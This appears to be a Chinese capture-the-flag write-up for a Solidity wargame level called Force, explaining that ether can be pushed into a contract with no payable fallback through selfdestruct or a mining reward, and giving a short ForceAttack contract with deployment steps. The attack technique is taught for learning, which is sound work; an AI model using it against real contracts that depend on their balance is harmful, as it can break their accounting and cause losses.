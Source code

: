 # Force
关于强制向某个地址进行转账
```solidity
pragma solidity ^0.4.18;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### 代码分析
上述合约没有实际的代码，没有fallback函数，所以如何通过transfer，sendTransaction等方法直接向合约地址转账会失败。
但是，如果将该地址作为miner的受益地址或者将其作为selfdestruct的受益地址时，资金还是可以转移到该合约地址上。
因为上述两种情形都没有执行合约的代码。

### 攻击合约
```solidity
pragma solidity ^0.4.18;

contract ForceAttack {

  function ForceAttack() public payable {}
  function() public payable {}

  function attack(address target) public {
    selfdestruct(target);
  }
}
```

### 攻击步骤
1. 部署攻击合约，并向其发送一定数量的eth
2. 调用攻击合约的attack(address)方法